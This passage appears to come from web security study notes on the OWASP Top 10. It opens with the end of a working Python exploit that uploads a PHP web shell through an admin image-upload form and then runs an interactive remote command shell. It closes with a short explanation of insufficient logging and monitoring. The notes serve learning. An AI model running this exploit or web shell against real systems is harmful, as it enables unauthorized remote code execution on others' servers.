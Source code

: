         payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'
        
        file = {'image': (random_file + '.php', payload, 'text/php')}
        print('> Attempting to upload PHP web shell...')
        r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
        print('> Verifying shell upload...')
        r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)
        
        if random_file in r.text:
            print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
            print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
            launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
            if launch_shell.lower() == 'y':
                while True:
                    cmd = str(input('RCE $ '))
                    if cmd == 'exit':
                        sys.exit(0)
                    r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
                    print(r.text)
        else:
            if r.status_code == 200:
                print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php, however a simple command check failed to execute. Perhaps shell_exec is disabled? Try changing the payload.')
            else:
                print('> Web shell failed to upload! The web server may not have write permissions.')
        ```
        
          
        

---

- **Insufficient Logging & Monitoring**
    
    When web applications are set up, every action performed by the user should be logged. Logging is important because in the event of an incident, the attackers actions can be traced. Once their actions are traced, their risk and impact can be determined. Without logging, there would be no way to tell what actions an attacker performed if they gain access to particular web applications. The bigger impacts of these include:
    
    - Regulatory damage: if an attacker has gained access to personally identifiable user information and there is no record of this, not only are users of the application affected, but the application owners may be subject to fines or more severe actions depending on regulations.
    - Risk of further attacks: without logging, the presence of an attacker may be undetected. This could allow an attacker to launch further attacks against web application owners by stealing credentials, attacking infrastructure and more.
    
    The information stored in logs should include:
    
    - HTTP status codes
    - Time Stamps
    - Usernames
    - API endpoints/page locations
    - IP addresses
    